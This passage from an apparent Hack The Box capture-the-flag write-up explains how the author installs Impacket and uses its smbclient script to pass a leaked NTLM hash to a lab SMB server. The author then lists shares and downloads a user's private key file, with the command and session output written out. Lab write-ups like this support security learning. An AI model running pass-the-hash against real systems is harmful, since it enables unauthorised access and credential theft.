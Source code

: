 Looks like we got two user names: alice1978 and bob8791.  We even got an NTLM hash for alice1978.  We know it is not a normal LM hash, because we would see a field named sambaLMPassword.

I tried running this through johntheripper with several wordlists and did not get anywhere.  Instead of waiting forever, I decided to try passing the hash.  Impacket<sup>[2],[3]</sup> includes a tool that allows us to pass the hash to browse samba / SMB shares which samba's ```smbclient``` does not.  It requires a little bit of setup if you do not have it.  I am doing this on Kali, but these instructions should work for any Debian-based Linux distribution.  If you are using another Linux distribution, macOS, or Windows, will be slightly different.  In a nutshell, here is what we are doing:

  1.  Installing virtualenv for Python 2 if you do not already have it.  Impacket is written for Python 2.  virtualenvs allow us to keep Python code seperate from other code on the system.  This is useful if a piece of software requires a specific version of a dependency.
  2.  Grab the source code from impacket's github repo<sup>[3]</sup>.
  3.  Create a virtual environment to live with the source code we just downloaded.
  4.  Activate the virtual environment
  5.  Install impacket and its dependencies in the virtual environment.
  
```bash
# Install virtualenv for Python if you do not have it
# As of this writing, impacket only supports Python 2, so we need the Python2 version of virtualenv
# If you are not using a Debian-based or you are using Windows, this command will be different
apt install python-virtualenv

# Get the impacket source code
git clone https://github.com/CoreSecurity/impacket

# Create the virtual enivornment named impacket.  This will put the Python environment in the source code folder that created by the clone step above.
virtualenv impacket

# Go into the impacket directory
cd impacket

# Activate the virtual environment (use the command deactivate when you are done)
source bin/activate

# Grab the dependencies we need for impacket and install them
pip install .
```

Now that impacket is installed, we will use the smbclient example script to browse any shares and download any interesting files we find:

```bash
# We put a colon in front of the hash because the LM hash is empty.
# If we had an LM hash, the hash we would specify here would be of the format <LM hash>:<NTLM Hash>
# LM hashes would be stored as sambaLMPassword
(impacket) root@kali:/opt/impacket# python examples/smbclient.py -hashes :0B186E661BBDBDCF6047784DE8B9FD8B alice1978@10.10.10.107
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Type help for list of commands
# lcd /root/ctf/hackthebox/ypuffy
/root/ctf/hackthebox/ypuffy
# shares
alice
IPC$
# use alice
# ls
drw-rw-rw-          0  Mon Jul 30 22:54:20 2018 .
drw-rw-rw-          0  Fri Sep 21 17:18:39 2018 ..
-rw-rw-rw-       1460  Mon Jul 16 21:38:51 2018 my_private_key.ppk
# get my_private_key.ppk
# exit
```


[1]: https://nmap.org/nsedoc/scripts/ldap-search.html "ldap-search NSE script"
[2]: https://www.coresecurity.com/corelabs-research/open-source-tools/impacket "impacket"
[3]: https://github.com/CoreSecurity/impacket "impacket source code"
[4]: https://man.openbsd.org/sshd_config "OpenBSD man page: sshd_config"
[5]: https://man.openbsd.org/ssh-keygen "OpenBSD man page: ssh-keygen"